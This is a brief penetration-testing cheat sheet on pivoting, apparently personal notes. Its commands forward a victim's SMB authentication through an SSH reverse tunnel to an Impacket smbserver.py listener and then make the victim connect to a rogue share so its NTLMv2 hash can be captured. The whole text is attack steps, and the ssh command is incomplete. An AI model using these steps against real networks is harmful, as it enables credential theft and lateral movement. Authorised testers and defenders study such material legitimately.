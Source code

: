# Pivoting tips

## Forward NTLMv2 hash through pivot machine using SSH tunneling
```
# On pivot machine
ssh -R <Victim IP>:<PORT TO FORWARD>:127.0.0.1:<PORT TO FORWARD>
exple : 445 to forward SMB connection
check if ssh config is correct, cf 'ssh remote port forwarding' command

# Locally
sudo smbserver.py <SHARENAME> . -smb2support

# On victim machine
Make the victim machine initiate an SMB connection to the pivot machine using for example : gci \\<PIVOT machine IP> OR <PIVOT machine DNS name>\<SHARENAME>\foo
```
